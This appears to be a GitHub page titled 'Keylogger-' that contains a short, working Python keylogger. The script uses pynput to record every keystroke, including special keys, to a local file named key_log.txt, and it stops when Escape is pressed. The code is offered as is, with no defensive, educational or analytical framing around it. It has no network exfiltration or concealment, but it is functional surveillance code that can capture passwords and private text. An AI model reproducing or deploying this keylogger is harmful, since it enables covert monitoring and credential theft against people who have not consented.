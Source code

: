 # Keylogger-

from pynput import keyboard

# Define the log file
log_file = "key_log.txt"

# Function to log keystrokes
def on_press(key):
    try:
        # Write the key pressed to the file
        with open(log_file, "a") as f:
            # If the key is a character, print its value
            f.write(f"{key.char}")
    except AttributeError:
        # Special keys (e.g., space, enter, shift)
        with open(log_file, "a") as f:
            # Record special keys with their name
            f.write(f" [{key}] ")

# Function to stop the listener
def on_release(key):
    # Stop logging when the Escape key is pressed
    if key == keyboard.Key.esc:
        return False

# Listener setup
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
